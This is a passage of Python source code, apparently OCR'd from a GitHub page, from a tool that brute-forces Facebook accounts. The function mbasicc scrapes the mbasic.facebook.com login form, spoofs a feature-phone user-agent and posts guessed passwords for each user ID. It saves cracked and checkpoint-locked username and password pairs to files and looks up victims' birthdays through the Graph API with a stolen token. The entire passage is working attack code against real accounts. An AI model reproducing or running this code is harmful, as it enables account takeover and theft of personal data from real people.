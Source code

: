 			continue

	loop += 1

def mbasicc(uid, fii):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
	global ok, cp, loop, token, cookie
	sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
	for pw in fii:
		fii_gtg = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://mbasic.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:fii_gtg.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		fii_gtg.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		deku = ses.post("https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=fii_gtg)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print(f"\r{B} |----> {I}{uid}•{pw}")
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token  = open('login/token.json','r').read()
				cookie = {'cookie':open('login/cookie.json','r').read()}
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print(f"\r{B} |----> {K}{uid}•{pw}•{day} {month} {year}")
					cp.append("%s|%s"%(uid, pw))
					open("CP/%s.json"%(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print(f"\r{B} |----> {K}{uid}•{pw}")
			cp.append("%s|%s"%(uid, pw))
			open("CP/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break